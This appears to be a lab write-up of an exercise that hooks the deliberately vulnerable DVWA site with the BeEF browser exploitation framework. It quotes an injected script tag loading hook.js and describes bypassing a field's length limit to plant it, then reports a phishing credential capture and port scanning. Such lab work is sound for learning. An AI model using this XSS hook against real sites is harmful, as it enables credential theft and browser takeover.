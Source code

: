## "Hooking the DVWA Website via BeEF"

1. ### Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

    ![pic](hook-1.PNG)  

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

2. ### Launching the Pretty Theft Attack

    ![pic](hook-3.PNG) 


* Victim entered the following:

    A) Email: Rob1@fake.com

    B) Password: 12345678

    ![pic](hook-4.PNG) 

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

    ![pic](hook-5.PNG) 

* Picture of the attack from Linux Command Line

    ![pic](hook-6.PNG) 

3. ### From the pictures above you can see that the attack was SUCCESSFULL

**Example of a SUCCESSFULL Fake Notification Attack**

![pic](hook-7.PNG) 

 **Example of a SUCCESSFULL Get Geolocation (Third Party) Attack**

![pic](hook-8.PNG)

 **Example of a SUCCESSFULL Port Scanner Attack**

![pic](hook-9.PNG)

